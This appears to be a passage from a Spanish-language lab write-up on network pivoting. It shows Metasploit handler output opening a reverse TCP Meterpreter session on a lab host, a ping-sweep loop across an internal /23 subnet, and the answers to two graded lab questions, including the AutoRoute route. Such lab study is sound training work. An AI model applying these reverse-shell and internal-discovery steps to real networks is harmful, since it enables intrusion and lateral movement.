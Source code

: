 Y nos establece la sesión meterpreter correctamente: 
```
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
[*] Started reverse TCP handler on 0.0.0.0:8080 
[*] Sending stage (3090404 bytes) to 10.129.250.220
[*] Meterpreter session 1 opened (10.10.14.176:8080 -> 10.129.250.220:42592) at 2025-10-23 04:29:02 -0500
```


En el SSH, realizo un IP A y me doy cuenta que tiene la interfaz 172.16.5.0/23 disponible.

Realizo pues desde meterpreter un: 
```
(Meterpreter 1)(/home/ubuntu) > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

Pero me da error. 

Pruebo desde la terminal ssh:
```
ubuntu@WEB01:~$ for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
64 bytes from 172.16.5.19: icmp_seq=1 ttl=128 time=0.446 ms
64 bytes from 172.16.5.129: icmp_seq=1 ttl=64 time=0.039 ms
```

Y me devuelve 2 hosts: 172.16.5.19,172.16.5.129

Respuesta: 172.16.5.19,172.16.5.129



**2. Which of the routes that AutoRoute adds allows 172.16.5.19 to be reachable from the attack host? (Format: x.x.x.x/x.x.x.x)**
Explicación breve: la máscara 255.255.254.0 (/23) cubre el rango 172.16.4.0 — 172.16.5.255, por tanto incluye a `172.16.5.19`.

Respuesta: `172.16.4.0/255.255.254.0`